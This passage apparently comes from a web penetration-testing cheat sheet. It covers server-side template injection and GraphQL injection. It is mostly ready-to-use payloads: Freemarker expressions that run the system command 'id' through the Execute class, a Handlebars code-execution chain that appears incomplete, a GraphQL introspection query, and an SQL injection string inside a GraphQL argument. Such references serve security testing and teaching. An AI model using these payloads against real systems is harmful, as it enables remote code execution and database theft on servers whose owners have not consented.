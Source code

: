 **Freemarker (Java)**:
```java
# Basic detection
${7*7}
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }

# Code execution
${"freemarker.template.utility.Execute"?new()("id")}
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

**Handlebars (Node.js)**:
```javascript
# Code execution
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{#with (concat (lookup string 0) (lookup string 1))}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 (slice 2))}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

### **🆕 GraphQL Injection**

#### **Testing Steps**:
- **Step 1**: Identify GraphQL endpoints (`/graphql`, `/graphiql`, `/api/graphql`)
- **Step 2**: Test introspection queries
- **Step 3**: Test for injection in arguments

#### **GraphQL Payloads**:
```graphql
# Introspection attack
{
  __schema {
    types {
      name
      fields {
        name
        type {
          name
        }
      }
    }
  }
}

# SQL injection in GraphQL arguments
{
  user(id: "1' OR 1=1--") {
    name
    email
  }
}
```